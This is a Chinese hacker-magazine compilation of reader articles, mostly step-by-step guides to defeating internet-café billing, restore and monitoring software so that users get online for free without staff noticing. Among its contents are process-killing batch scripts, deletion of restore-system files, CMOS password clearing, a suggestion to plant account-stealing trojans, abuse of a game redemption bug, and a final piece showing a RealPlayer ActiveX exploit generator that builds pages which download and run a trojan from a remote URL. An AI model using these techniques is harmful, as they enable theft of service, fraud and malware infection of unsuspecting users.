DNS是域名系统（Domain Name System）的缩写，该系统用于命名组织到域层次结构中的计算机和网络服务。DNS命名用于Internet等TCP/IP网络中，通过用户友好的名称查找计算机和服务。当用户在应用程序中输入DNS名称时，DNS服务可以将此名称解析为与之相关的其他信息，如IP地址。因为，你在上网时输入的网址，是通过域名解析系统解析找到了相对应的IP地址，这样才能上网。其实，域名的最终指向是IP。

## 小菜来破解程序监控

陈则征

本人所在学校附近有个配置很好的网吧，我不大玩游戏，就爱下载个电影什么的。不过最近去玩却发现网吧换系统了，不管它，安装迅雷，一路正常。运行迅雷，只见一个cmd 黑影闪过，什么反应也没有了，我本着和平的心态想想这事也就算了。于是我又安装了Flashget，发现也无法运行，接下来我又试了Web迅雷、QQ 旋风，发现都不行。这网管也太欺负人了吧，难道要赶尽杀绝啊。我七窍生烟，斗志昂扬，以“黑客X 档案”的名义起誓，一定破解掉它。

首先更改迅雷的默认名称、更改安装目录，没有结果。直觉告诉我那个cmd 窗口是突破点，于是我又运行迅雷，在“黑影”闪过的时候按下PrintScreen 键进行截屏（图1）。cmd 窗口里一片空白，但标题上却有一程序的路径E:\NBMSClient\PTarget.exe。我来到该目录下把这个“PTarget”删除掉，再次运行迅雷，没有出黑影，但迅雷也没有出来，怎么办呢？


我打开任务管理器，把除了系统和Pubwin 以外的进程全部结束掉，然后再次运行迅雷，这时有一个进程冒了出来，而它与“E:\NBMSClient”目录下的一个文件夹同名（图2）。


打开该文件夹，其中有一个ini 文件，打开看看，哈哈，狐狸尾巴终于露出来了（图3）。

```
[General]
Fatalen=244
pScanC=1024065507
[ProcessDeny]
Thunder5.exe=1
webThunder.exe=1
qqaa.exe=1
eMule.exe=1
TuuTu.exe=1
ppLive.exe=1
ThunderHB.exe=1
KuGoo.exe=1
ppGou.exe=1
pPStream.exe=1
QQdownload.exe=1
PunDi12.exe=1
[HostsDeny]
[MoudouDeny]
[ProcessProtect]
```


```
[General]
Fatalen=229
pScanC=1407595700
[ProcessDeny]
Thunder.exe=1
WebThunder.exe=1
uGaa.exe=1
FlashGet.exe=1
eMule.exe=1
TuuTu.exe=1
ppLive.exe=1
ThunderHB.exe=1
KuGoo.exe=1
ppGou.exe=1
pPStream.exe=1
QQDownload.exe=1
[HostsDeny]
[MoudouDeny]
[ProcessProtect]
```


禁止运行的软件还挺多，删除掉迅雷的名字“Thunder5.exe”，保存后运行，还是不出来。我想起“黑客X档案”上曾经有篇文章说改名就可以了，我试着把“Thunder5.exe”改成“Thuaaaand5.exe”，保存后运行迅雷，仍然不出来，都到嘴边的肥肉不能跑了，我再想想。突然想起有一些程序或游戏的配置文件都是ini 格式的，ini 文档里都用1，0代表是或否，在等号后加个1 试试（图4），保存后打开迅雷，哈哈，这回成功的运行了（图5）。


## 网吧还原也很脆弱

10℃寓言

好长时间都没去网吧玩了，也不知道机器狗在网吧过的咋样。今天无意间发现了网吧一个很好玩的东西，大家和我一起来看看吧。

和往常一样开机，然后就是祈祷电脑能快点启动，进入操作系统选择菜单的时候好像多出了一个什么东西，仔细一看，原来是DOS工具箱（图1），这不是给我们小菜创造方便条件嘛，当然不能错过。


刚一进入系统界面，右下脚的胖熊就暴露自己了，这不就是冰点还原吗？再看看C盘是什么文件系统，还是FAT32格式，这可方便了我接下来的操作。闲话不说，下面就来破解他的冰点还原，重启电脑后选择进入DOS工具箱（图2）。


我们直接进入DOS命令行，输入C: 回车进入到C盘，然后执行DIR命令查看文件，证明是系统盘（图3）。接着输入move $persi0.sys D:，把冰点的这个配置文件转移到D盘，如果你够残忍的话直接删除它也行，命令是del $persi0.sys。这下冰点就彻


# 网吧黑客

底的完了，不信就进入桌面看看吧。我又想了想，其实我们也可以删除冰点的驱动文件，如果你不知道该删除哪个驱动文件的话可以这样去查找。随便选一个盘点鼠标右键→属性→硬件→选中你的硬盘（也就是硬盘驱动器对应的那一个）→属性→驱动程序→驱动程序详细信息，那个没打勾的就是（图4）。不过，需要注意的是：并不是所有的还原软件都可以删除驱动文件，有的删除后会蓝屏死机的。

干掉冰点后，接下来做什么就随便大家了，比如种种盗号的木马，或是免费上网什么的都行，一切操作完后别忘了还要把它还原回去，不然的话被网管理发现可就不好了。如果你所在的网吧没有安装DOS工具箱也不要灰心，U盘你总有的吧，使用USBoot格式化一下U盘就可以引导了（图5）。还有的网吧可能锁定了CMOS，这个你也别怕，使用xp+2000cmos密码清除器就可以清除cmos的密码了（图6）。


(本文所涉及到的USBoot和xp+2000cmos密码清除器已收录到光盘中)


巧破金盘电子阅览室机房管理系统

西北的狼

### 一、金盘系统简介

金盘是金沙汇公司在进行了广泛用户需求和市场调研后开发的一个对同类电子阅览室和机房进行高性能自动化管理的软件，这个软件有点像现在市面上的万象网吧管理系统，所达到的目的基本相同。据我所知现在有好多大学都在使用这个软件，这其中包括了一些211工程里的大学，因此软件的安全性一直是金盘系统的首要出发点，而其所公司也不定时的更新软件，破解的难度可想而知。

### 二、金盘系统的工作原理

俗话说的话，知己知彼方可百战百胜。在破解任何一个管理软件前我们都必须搞清楚它的基本工作原理。金盘管理系统是一个典型的（C/S）模式，也就是有一个客户端和一个服务端程序，其客户端进程是Client.exe，客户端保护进程是cliGold.exe。服务端负责计费以及监控客户端的一些行为以及上网时间到了向客户端发送锁屏命令，也就是说计费是在服务端那里完成的，服务端不监视客户端程序的完整性。对于服务端我们不必花费太大的心思去研究，也没有必要。我们主要在客户端做一下手脚，首先我们使用进程查看器查看一下进程，能够看到Client.exe和cliGold.exe都是在system32目录下，而且是隐藏的，如图1。


我首先想到的是结束进程，但当结束Client.exe进程时，却遇到了严重的警告，如图2，然后重启电脑。看来不出所料，果然有一个守护进程在时刻守护着这个客户端。那我们再结束这个守护进程试试看，结果还是警告后重启，如图3。

到此已经基本明白了金盘系统客户端的工作原理：客户端有两个进程，这两个进程是相互保护的，相互间时刻保持联系，不定时的打招呼看看对方是否在线，若发现对方不在线就立刻重新启动电脑。进程Client.exe负责与服务器连接以及计算上网费用以及上网时间到了接收服务器的锁屏命令，进程cliGold.exe负责保护客户端进程Client.exe，同时我们也得知结账也是通过进程client.exe向服务器发送结账信息的，这点对我们的完美破解很有用。

### 三、金盘系统破解方法

既然知道了client.exe是负责锁屏的进程，也就是说当我们的上网时间到了后服务器向客户端发送一个锁屏信号，客户端却没有向服务器回应是否执行成功，只是负责接收来自服务器的命令，服务器也不检查客户端是否执行了没有。这就使得我们有机可乘，我们可以将这两个进程同时结束掉，只需要一个批处理就可以搞定了，代码如下：

```
tskill /f /im cliGold.exe
tskill /f /im Client.exe
tskill /f /im explorer.exe
start explorer.exe
```

将文件保存为.bat批处理格式，当你的上网时间快到时时运行这个批处理文件就可以了。这样就算你的上网时间到了也不会锁屏了，因为锁屏程序已经被你杀掉了。不过，这个方法也有一个缺点，就是每次上机都要充钱，而且每次充的钱都不多，时间长了管理员不怀疑你才怪呢。

下面给大家介绍一个更好的方法，可以结账但不会锁屏。第一步，将以下代码写到记事本里，保存为K1.bat。

```
ntsd -c q -pn smss.exe
ntsd -c q -pn winlogon.exe
```

### 一元的午餐 —— PubWin2007简单破

rain01

年初的时候，我家附近的网吧管理系统就从万象2004换成了Pubwin2007，由于当时PubWin2007的破解方法很少，也就使得我无法继续用一元钱开机再进行破解的方法来免费上网了。

不过现在PubWin2007破解的方法有很多了，在X档案上也曾经介绍过一些，下面我再为大家介绍一个简单的破解方法，也能达到一元钱上网的效果。

我们需要的工具只有PubWin2007伪装破解精灵，破解的过程非常简单，当你花一元钱上机后，在下机前双击PubWin2007伪装破解精灵，点击“断开pubwin.exe”，这时屏幕中央会提示：“搜索pubwin2007登陆窗口，超时：20秒”，如图1。稍等一段时间，程序又会提示：“pubwin2007客户端停止成功”，破解完成，如图2。我们再看看托盘里PubWin2007的图标，是不是已经消失了？

图标没有了就要伪装一个来应付网管的检查，还是打开PubWin2007伪装破解精灵，点击“伪装图标pubwin.exe”。再看，托盘图标就又重新回来了，如图3。OK，所有的工作就结束了，可以免费上网喽！

最后需要提醒大家的是：当你到时间后（正常上网的情况），网吧主机PubWin控制端显示的是此机锁定未使用，所以大家一定要注意人身安全哦！
（本文所涉及到的PubWin2007伪装破解精灵已收录到光盘中）


taskkill /f /im CilGold.exe
/ taskkill /f /im Client.exe
start client.exe
start C:\WINDOWS\system32\client.exe

我简单解释一下，ntsd -c q -pn smss.exe与ntsd -c q -pn winlogon.exe这两条命令是强制结束系统进程防止电脑重新启动的。start client.exe 是启动我自己编写的一个VB小程序，为了防止结账后金盘锁屏的（当你结账后系统将会自动锁屏），而且这个程序也起到伪装金盘系统托盘图标的目的，其运行后的界面如图4所示。start C:\WINDOWS\system32\client.exe这个代码是负责结账。

第二步，将下列代码输入到记事本里，保存为K2.bat。

taskkill /f /im explorer.exe

taskkill /f /im Client.exe
start client.exe
start explorer.exe

第三步，把K1.bat、K2.bat以及我写的VB小程序存放到同一个目录下。这个VB程序的文件名叫client.exe，是为了应付cilGold.exe对主进程的守护。

使用方法：正常登录金盘收费系统，按照上面的步骤建立两个批处理文件K1.dat与K2.dat。首先运行K1.dat，然后再运行k2.dat。要注意的是这个过程必须使用我编写那个金盘杀手小程序并且在同一个目录下。这个方法的优点是可以客户端结账，也就是说结帐后还可以继续使用计算机。

### 四、破解后的一点感想

总的来说这次破解不算很高深，都是一些常用的命令以及方法。但我认为有时候最简单的东西也是最有用的，就像本次破解中所用到的批处理就发挥了巨大的威力。在这个过程中我们可以锻炼自己的破解能力以及学到如何利用现代的网络来解决问题，这对于自己的成长是非常有帮助的。（本文所涉及到的批处理代码和金盘杀手已收录到光盘中）

网络欢迎你使用本软件请按Ctrl+F12隐藏
本窗口
作者：海哥  QQ：75968687

图4


搜索Pubwin 2007登陆窗口, 超时:20秒

Pubwin 2007客户端停止成功！
确定

C:\Documents and Settings\xfc\桌面\20080224196688219

# 网吧黑客

2008 合订本上卷

## 轻松突破雨人网络 E 卡通

近墨者[iamdg]

最近我们这里的网吧全部从“万象 2004”换成了“雨人网络 E 卡通”，一时间不知道该怎么办了，很多破解的方法都用不成了。只能伤心的看着自己的钱一分一分的装进老板的口袋，那心情真是……

到网上搜索了一下“雨人网络 E 卡通”的破解方法，可大家都说很难破解，没有找到什么有效的方法，看来只能自己研究了。就比如今天我正在网吧帮朋友编写一款游戏的外挂，突然上机的时间到了，那个愤怒啊，谁能理解呢（图 1 ）？


盯着锁住的电脑屏幕，一时间手足无措，试遍了所有的方法毫无收获，真是糟糕透了。突然又想到了任务管理器，于是按下 Ctrl+Alt+Delete，真是令人激动，任务管理器竟然跳了出来（图 2 ）。


试着结束管理程序的进程，鼠标只可以在下面活动，根本点不上去。就在这万分焦急的时刻，我点了下“关闭计算机”，这时鼠标可以移上去了，但是却无法点别的。不过点击“取消关机”后，鼠标就可以随意动了，但只有 5 秒的时间，所以如果动作足够快的话点两次关闭计算机就可以搞定了。选择结束雨人网络 E 卡通的任务，点击结束任务，桌面出来了（图 3 ）。


怎么样？简单吧！各位小菜再遇到问题的时候，不要躲避，只要多动动脑子，一切都会解决的。就在我准备完稿的时候，朋友告诉我说在另一家网吧中这种方法不可以使用。我于是又来了兴趣，过去试了一下，操作完上面的所有步骤，桌面是出来了，不过没有任务栏，而且玩上一两分钟就会再锁住屏幕。我又陷入了无奈，怎么办呢？这时我又想到了网络连接里的协议，右键点击“网上邻居”，选择“属性”，在本地连接上右击，选择“属性”，打开“本地连接属性”（图 4 ），把其中的 Network Monitor Driver 协议卸载掉，这样就不会关机了（图 5 ）。


### 什么是 Cookies 注入？

这是目前非常流行的一种攻击方式，普通的注入攻击很好防范。但把注入语句加到 Cookies 中提交就往往被人忽略。当一套程序的 Cookies 没有过滤严谨时，就为攻击者打开方便之门，而且还可以无视防注入系统。

## CMD下也来终结网吧收费系统

缥缈\%%影 [07108 班]

这天实在无聊，我来到了好久不去的网吧，下载了几首歌曲后，到各大网站又转了一圈，时间过的好快呀，要下机了，可网吧收费系统却提示金额不足，真是令人郁闷！我忽然有了一种想破解网吧收费系统的冲动。

这家网吧使用的收费系统为同联，收费系统能够正常运行，那就肯定会有进程，我们只要终止了进程无论什么程序都不会运行的。先选择“网上邻居”，点击鼠标右键，选择“属性”，然后选择网络连接里的“本地连接”，点击鼠标右键，选择“禁用”，也就是把本地连接停用，断开网络连接，这样电脑就不受主机的控制了。

我按下“Ctrl+Shift+DEL”组合键想调出任务管理器，却发现被网吧管理员限制了，好在网吧对于下载文件倒是没什么限制，我也懒得去下载工具了。点击电脑最左下角的“开始”，却发现“运行”栏没有了。没有工具难道就不能终止程序的进程了吗？那就编写一个批处理文件来打开 CMD 命令提示符吧。

在电脑桌面上点击鼠标右键，新建一“文本文档”，在文本文档中输入 start cmd.exe（注意，start 和 cmd.exe 中间要有一个空格），然后点“文件”→“另存为”，扩展名就写批处理文件扩展名 bat。文件名我设置的是 1.bat，最后点保存，桌面上就多了一个批处理文件。双击运行，顺利的打开了 CMD（图 1）。


这个黑框框和破解网吧又有什么关系呢？别着急，接下来你就会发现它的用处了。我们输入 tasklist 命令后回车，就能查看系统的进程了（Tasklist 命令的作用显示应用程序列表、服务以及当前运行在本地或远程计算机上的进程 ID（PID））。对于系统进程相信大家都很熟悉了，关闭除网吧收费系统外所有正在运行的程序，剩下的进程里应该就有网吧收费系统的进程了（图 2）。


我看到了两个很相似的进程，分别是 ClientBK.exe 和 ClientP.exe，可以看到这两个进程的 PID 分别为 1200 和 1312。经过查找，发现网吧的客户端程序是保存在 C:\Program Files 目录下。进入客户端安装文件中，我看到有两个程序的名字和正在运行的进程名是一样的，因此可以确定这两个进程就是网吧客户端的进程。先使用 taskkill 命令终止其中的一个进程，发现电脑被锁上了，提示客户端非法关闭。

没办法，只能重启电脑，刚开机时，客户端没有马上运行，我用最快的速度把网络断开了连接。客户端的两个进程一定是相互保护的，一个被终止后，另一个进程就会自动锁机。那么同时终止这两个进程应该就能终结掉客户端了。在 CMD 中，同时终止多个进程的命令有两种格式：格式 1 是 taskkill /pid 进程的pid值 /pid 进程的pid值，刚才我们已经看到 ClientBK.exe 和 ClientP.exe 的 pid 值了，输入 taskkill /pid 1200 /pid 1312 回车后，就同时终止了这两个进程。格式 2 是 taskkill /F /IM 进程进程名，这种命令格式是指定强制终止的进程，不需要知道 PID 值。输入命令 taskkill /F /IM ClientBK.exe /IM ClientP.exe 回车后，就把两个进程终止了（图 3）。


任务栏处查询余额的图标消失了，我们重新把网络连接开启使用，就可以正常上网了，这时电脑已经无定被锁了。以上两种命令格式可以同时终止多个进程，以后碰到有多个进程的程序，直接全部终止就可以了。

不借助任何工具，网吧收费系统就这么简单的被破解掉了，我们平时也要多留意 Windows 系统自带的好东西。

（文章的视频录像已经收录光盘中）


# 网吧黑客

2008 合订本上卷

## 看我怎么搞定你，雨人网络卫卡通

007 菜鸟

我们这儿的网吧自从 2006 年末就把万象 2004 更换成雨人网络 E 卡通计费系统了，可惜了我对付万象练成的一身好武艺，自从网吧全都使用了雨人计费系统后，一直都没有什么好的破解方法。五月初收到了可爱的黑客 X 档案，可是里面介绍的方法太过于繁琐了，而且我这儿的网吧也根本无法使用。求人不如求自己，下边我就把自己破解雨人网络 E 卡通的一些心得与大家分享。

今天要带给大家的是一元钱上机法，花一元钱只要不被网管发现想上多久就上多久，一般适合晚上通宵和挂机的同学。好了不说废话了，下面请看操作。

先开一张临时卡，充多少钱随便大家，但是充多了也是一样的，建议充一元到两元左右，充多了也是浪费。我们要用到的工具有冰刃（也就是 ICESWORD），这是一款不可多得的进程检测好工具，还需要精锐网吧辅助工具。这两款工具在百度和 google 里都很容易找到，菜鸟必备。

首先解压冰刃的压缩包，我使用的是 1CESWORD1.22 版，各位读者可以按情况选择适合自己的版本。运行 ICESWORD. EXE，出现了如图 1 所示的界面，我们点“进程”，看到没有，所有的进程都显示出来了，任何隐藏的进程都躲不过冰刃的法眼，这个网吧使用的冰点还原软件的进程也显示出来了，如图 2。

| 进程名称 | 进程ID | 程序名称 |
| --- | --- | --- |
| lcxsec.exe | 1268 | C:\WINDOWS\system32\lcx |
| explorer.exe | 1788 | C:\WINDOWS\explorer.exe |
| conime.exe | 1152 | C:\WINDOWS\system32\con |
| algexvx.exe | 1100 | C:\WINDOWS\system32\al |
| algexvx.exe | 1632 | C:\WINDOWS\system32\at |
| Wscript.exe | 1844 | C:\WINDOWS\system32\W |
| TXPlatform.exe | 1000 | E:\网络聊天\QQ2007\TX |
| SYSTEM | 4 | NT OS Kernel |
| QQ.exe | 1696 | E:\网络聊天\QQ2007\QQ |
| jfwclient.exe | 376 | C:\Program Files\JfwCl |
| EXPLORE.EXE | 256 | C:\Program Files\Intel\E |
| EXPLORE.EXE | 940 | C:\Program Files\Intel\E |
| svchost.exe | 500 | C:\Program Files\FarCry |
| jfserv.exe | 1056 | C:\Program Files\JfwC |
| ClientMo.EXE | 1744 | C:\Program Files\JfwCli |
| 1.exe | 1708 | C:\Documents and Settings |
| services.exe | 892 | C:\WINDOWS\system32\se |
| lssas.exe | 904 | C:\WINDOWS\system32\ls |
| winlogon.exe | 848 | C:\WINDOWS\system32\w |
| crsss.exe | 820 | C:\WINDOWS\system32\cs |

图 2


图 1

看见那两个可爱的小熊脑袋了吗，那个就是冰点还原，按照第 4 期杂志中“冰点还原 6.X 之破解大全”一文中所介绍的方法一下子就搞定了这里的还原系统。看见图中右边我画圈的两个进程没有？它们都是位于 C 盘下 PROGRAM FILES 目录下的 JFWCLIENT 的进程文件，其中的 CLIENTMO.EXE 是守护进程，防止 JFWCLIENT.EXE 进程被强制结束，如果结束了 JFWCLIENT.EXE 的话它就会马上重建新的进程，如果结束掉 CLIENTMO.EXE 进程，系统会死机或者重启，电脑一重启我们所做的操作就白玩了。整理一下思路，按照老方法，先结束掉 SMSS.EXE 这个进程，再结束掉 WINLOGON.EXE 这个进程，记住顺序千万不能颠倒，否则电脑就会重启，接下来才是关键，我们先结束掉 JFWCLIENT.EXE，然后等 CLIENTMO.EXE 重新创建一次 JFWCLIENT.EXE 后，再结束掉 CLIENTMO.EXE，最后结束掉 JFWCLIENT.EXE 这个进程就行了，如图 3。

| 进程名称 | 进程ID | 程序名称 |
| --- | --- | --- |
| DPF5erv.exe | 1056 | C:\Program Files\Faro |
| ClientMo.EXE | 1744 | C:\Program Files\JfwC |
| l.exe | 1708 | C:\Documents and Selt |
| services.exe | 892 | C:\WINDOWS\System |
| lssas.exe | 904 | C:\WINDOWS\System |
| winlogon | 648 | C:\WINDOWS\System |
| crsss.e | 820 | C:\WINDOWS\System |


图 3

接下来就是自由的时间了，随便你怎么上机都行，就是别被网管发现了，因为卡里余额没有的时候就会显示你这台电脑是空的，要是网管来关机看见你还在上网的话不怀疑才怪呢。所以我一直都是一个在网管比较小白的网吧里上网，而且都是晚上通宵才来，有的时候为了挂机就跑到其他的网吧去，搞定之后就挂机，在我们这里的网吧都有锁屏工具的，把屏幕一锁，我就跑路了，只要没有人重启你的电脑就没有问题。

其实本文使用的基本上都是前辈所使用过的方法，不过为什么要先结束 JFWCLIENT.EXE，再结束 CLIENTMO.EXE，对于这点我也不太清楚，反正我都是这样破解的，希望有高手能够解释一下。

另外要强调的一点是，结束完进程后鼠标不要放在右下角，因为鼠标一放在右下角的话那个有个 J 的图标就会消失，如图 4，很容易被网管发现的。

接下来我就讲讲精锐的作用，我使用上述的方法搞定了我这里 80% 的网吧，可是突然有一天在一家网吧里竟然失效了，结束完进程后发现鼠标和键盘被锁定，不能使用了。无奈之下只好重启电脑，打开冰刃按照老方法结束完进程后，不要关闭冰刃，这时候我发现多出来一个 CMD.EXE 的进程，心慌慌，赶快结束掉，没想到一分钟后却又出现了 CMD 进程，我只好再次结束掉，它再次的出来了，就这样反复了好久，我终于坚持不住了，在 CMD 进程出现没几秒鼠标和键盘就又被锁定了，只好再次的重启电脑。

整理了一下思路，突然想起了精锐网吧辅助工具里的禁止运行项目，先来看看它的注释：进程管理里面增加“终止并禁止运行”，如果使用“仅添加到禁运行列表”，那么已经运行的程序


图 4


并不会被终止，但终止以后将无法再运行了。某文件名被添加到“禁止运行列表”后，即使你关闭网吧辅助工具或重启计算机，该文件名都无法再运行（装有还原程序的计算机除外）。想继续使用该文件名的程序请到“禁止运行列表”取消禁止就可以了，如图5。我们先点上方的“禁止运行”项，在左下空白栏输入要禁止的进程，最后点后边的“禁止运行”按钮就行了，再按照老方法操作一遍，哈哈，CMD 进程果然没有出来，剩下的就是自由的上网时间了，破解完成。

其实我也是小菜，只是综合了各位高手留下来的工具来完成这次的破解，另外要提醒一下的是，有的网吧安装了防下载和防删专家，对于这样的网吧还是有办法的，我们把需要用到的工具上传到QQ 硬盘里就行了，经我测试，我们这里安装了防下载专家的网吧90%都没有屏蔽QQ硬盘，15M的空间也基本够用了。如果实在无法下载所需工具的话，我们还可以进入网吧小子的在线下载页面，这里面集成了太多好用的工具，我们要做的就是选择一个路径来存放工具就可以了，其网址是www.macgoo.com/online/help/。另外还可以花99元买个4G的U盘，相信没有网吧舍得禁用USB吧。好了，关于破解雨人网络E卡通就介绍到这儿，如果还有什么不明白的话，可以到X的论坛和我一起探讨！

(本文所涉及到的冰刃1.22版和精锐网吧辅助工具5.9已收录到光盘中)5


## 万象网管—要免费更要安全

飘来飘去[B.B.E]

我们这儿的网吧使用的都是万象2004管理系统，所以练习破解的对象也就只能是它了（没办法呀，我连美萍和PubWin都没有见过）。现在流行的破解方法是修改管理员密码，使用管理员帐户登录；断开和服务器的连接；杀掉万象进程等等。这些方法在使用上倒是没有什么问题，但却不同程度的存在一些不安全的因素（为了省两个钱被抓住而丢面子实在是太不值得）。比如修改管理员密码登录，我特地找服务器旁边的电脑进行试验，看看在服务器上有何反应（在网管眼皮底下，冒着生命危险测试，还好我操作速度快，否则@#$%^&*）。当我修改了密码，成功登录上去，刚感慨这个方法不错，结果就在服务器上看到了一句恐怖的话：管理员在该机登录。还好管理员当时不在。一个字：险！而断开连接的方法也有问题，如果是计时的话玩的只要不太过分，还没大碍。上次一朋友在网管面前开1小时，结果却坐了3小时都舍不得离开，后来被老板赶了出去。至于杀万象进程的方法就和上面的那个差不多了。


而被小菜炒得很火的那个“万象幽灵”破解工具其实就是把别人的工具整合在他自己的那个程序中，和使用WinRAR打包没什么两样。因此就不浪费版面介绍没用的东西了。

那么怎样做才算是安全呢？来看看我所使用的方法。来到网吧，看看人不多不多，这种状况最好不过了（不要在人满的时候去凑热闹）。找台电脑坐下，环顾四周，保护自己不在网管的直接视野内（这点很重要哦），使用会员卡登录（没有会员卡的也照样能使用），打开自己的网盘，把工具拖下来（用时15秒）。运行“万象杀手”（不使用密码就能更改万象配置的工具），当然不是要你去更改密码，而是在“一般设置”里的自动关机处设置一个时间（随便设置几分钟，不过做人要厚道哦），如图1，然后点击“确定”保存设置。


接下来运行一个叫做“Super X Desktop”的虚拟桌面软件，等待5秒钟后点击OK按钮，如图2，这时系统托盘处多了一个图标，上面写着一个“1”。


再接着运行“隐藏专家”，点击托盘处的那个“H”样式的图标-“设置”，如图3，在“托盘图标”项里输入一个“X”，然后点击“添加”-“确定”（图4）。好了，准备工作结束了（用时30秒）。

# 网吧黑客

现在，按住“Ctrl + Num2”（小键盘上的数字2），那个“1”的图标变成了“2”（此时我们来到了一个虚拟桌面，这是切换桌面的方法），再按下“Alt + X”（刚才那个图标不见了），再按下“Alt + Z”（隐藏专家的图标也不见了），如图5。

该留下的都留下了，这时可以点击“结账下机”来注销会员卡，等桌面被万象锁定后按“Ctrl+Num3”再创建一个新的虚拟桌面切换出来，修饰一下桌面背景，就可以免费玩了。之所以说这个方法是人为的漏洞，是因为此时网管面前的服务器上显示你使用的那台电脑是锁定状态，而他又不能直接看到你，因此基本上不会来查一台空的电脑，这也就是为什么不能在网吧爆满的时候使用的原因（注意：切换出来若要玩全屏的游戏则最好不要再来切去，切换一个能玩就行了）。退一步讲，如果被网管怀疑了，就按下重启电脑吧，反正重启后一切都被还原了，包括我们的作案工具，所以此法还是比较安全的。

（本文所涉及到的万象杀手、Super X Desktop和隐藏专家已收录到光盘中）

## PubwinKiller——通杀Pubwin的利器！

我拥有的第一本“黑客X档案”是2003年9月的那期，看了这么长时间的杂志，在与Pubwin不断的斗争和较量中也积累了一些经验，心血来潮就制作了独有的工具——《黑客X档案》PubwinKiller。希望它可以使众多小菜轻松的摆脱Pubwin，舒舒服服的玩免费。

《黑客X档案》PubwinKiller针对所有版本的Pubwin，无论是Pubwin2004、PubwinEP还是Pubwin2007。该工具破坏的是Pubwin核心锁屏关机等功能，Pubwin的进程并不破坏，这就使得Pubwin能够持续的告诉主机：这台机器正常。以此来达到我们安全免费上网的目的。

运行SetupHXFpbwKer.exe安装软件。安装完成后在开始程序中出现HXFpbwKer文件夹（如图1）


注意在运行软件之前，一定要关闭所有正在运行的程序，因为软件被破解时会触动Pubwin的关闭窗口功能（我的一个朋友用软件时没有关QQ，结果破解完了只听见QQ 消息的声音，却看不见聊天窗口）。

运行“破解Pubwin”屏幕显示：“正在破坏Pubwin锁屏功能….”这时等大约5秒钟。5秒钟后屏幕闪动破解完成。如果怕发现可以根据你的Pubwin版本选择生成托盘伪装图标就行了。现在你就可以去换机器或者刷卡下机啦^_^别用太久啊！

最后还有两点要提醒下大家：第一，因为《黑客X档案》PubwinKiller阻止所有程序的关机动作，所以关机前请先“恢复Pubwin”；第二，换机器或者刷卡毕竟有些麻烦，如果你是会员，并且手够快的话，你可以在显示“正在破坏Pubwin锁屏功能…”时自动结帐（如图2）。这样就舒舒服服的坐在那里继续上网了。


（本文所涉及到的《黑客X档案》PubwinKiller 已收录到光盘中）

## 打造超炫个性的文件夹

天天面对WINDOWS同样的文件夹背景，是不是已经厌倦了呢？今天我就给大家带来了一款可以帮助你修改文件夹背景的小程序—— Backgrounder.exe，它的使用方法非常简单。

首先看看我们自己的文件夹，如图1。是不是很难看呀！

我们运行Backgrounder.exe，软件界面如图2所示。先点击第一个“选择”来选择要更改的文件夹，我选择的是c:\windows\system32这个文件夹，再点击第二个“选择”来选择一个要做为文件夹背景的图片，然后就是字体的颜色了！这里大家可以根据你所选择的图片是什么颜色的来决定。我选的是红色。最后点击“添加图片”就可以了。

好了，大家来看看效果吧，如图3。怎么样？已经很好看了吧！


## 教小菜在梦幻国度刷道具

graylay1313

这天我的同学送给我几张妙脆角里的卡片，说可以兑换梦幻国度点券，真的假的呀，我回到家，立刻按照上边的说明登录了活动的主页http://jf.sdo.com/Bugles/BuglesIndex.aspx,如图1。


在这个网页的右下角就是登录并兑换道具的地方，点击之后会出现道具购买页面。在左边登录你的帐号，之后就会有一个“获取休闲币”的按钮，点击它，出现兑换点卷页面（图2）。


我们输入兑换码，兑换码就是买妙脆角里送的一张卡片，卡的背面就是兑换码。输入进去后就会给你的盛大帐户充值150游戏币，也可以给同一个帐户充值多张卡片的激活码，没有限制的。然后就返回到妙脆角兑换商城，在右面的按钮上选择梦幻国度，如图3。


随便兑换一个道具，视你帐户的余额而定，我们就以“小猪蛋糕”为例吧，在小猪蛋糕下点兑换，会出现如图4所示的画面。除了游戏分区一定要写自己游戏人物所在的分区外，其它的不必认真填写，提交后兑换成功，并提示你在何处领取，如图5。


运行梦幻国度，登录你的人物，到长乐城的郝芸琦这个NPC那里去领取“小猪蛋糕”。找到NPC后，跟她说话，选择我要领取“妙脆角”活动道具这一项（图6）。然后点击确定，领取成功（图7）。别着急走，继续以上操作，可以反复领取道具。我没有领取前的蛋糕数量是35个（图8），反复领取后，现在的蛋糕数量变成了57（图9）。倘若大家今天刷累了，明天打开游戏再刷，还是能刷的^_^不过，也希望大家不要刷过头，刷到够用就可以了。


2008 合订本上卷

网游江湖

## Realplay, 迅雷一起上——0day的乐趣

杜华军/雕牌(52cmd.cn)

今天给大家介绍两款流行软件的0DAY漏洞，都是可以用来挂马的，叉子们要赶紧学会，不要落于人后哦！

### 一、Realplay

近日，超级巡警团队检测到RealPlayer的一个非常危险的漏洞，该漏洞发生在RealPlayer的一个Activex控件上，漏洞公布后就开始在地下流传这个价值不菲的RealPlayer exp程序了。当安装了RealPlayer的用户在浏览黑客精心构造的包含恶意代码的网页后，将会在后台下载木马病毒并运行。该漏洞影响的版本是RealPlayer 11 Beta和RealPlayer 10.5。漏洞产生原因如下：RealPlayer的MPAMedia.dll库所提供的RealPlayer数据库组件在处理播放列表名时存在栈溢出漏洞，远程攻击者可能利用此漏洞控制用户系统。由于可以使用ierpplug.dll所提供的IERPCtl ActiveX控件将本地文件导入到RealPlayer指定的播放列表中，因此如果用户受骗访问了恶意网页并导入了恶意文件的话，就可以触发这个溢出，导致拒绝服务或执行任意指令。

以上都是牛X们研究的东西，我们这些小菜只需要知道怎么利用就可以了，先把realplay_exp.rar解压，在cmd命令提示符下进入你解压的目录，输入文件名称，就会出现文件帮助信息了，如图1。


图1

```
Usage: realplay_ActiveX_0day.exe <URL> [htmfile]
realplay_ActiveX_0day.exe <木马地址> [生成文件名称]
```

我们照着这个格式生成一个网马，realplay_ActiveX_0day.exe http://www.52cmd.cn/ceshi.exe Read.html，如图2。把生成的文件上传到自己的空间上，我安装的RealPlayer是10.5版本的，传到空间里的地址是www.52cmd.cn/read.html，在IE里打开看看效果，溢出成功了，测试程序被运行了，如图3。对于该漏洞，解决的方法就是将RealPlayer更新到最新的版本。


图2


图3

### 二、迅雷

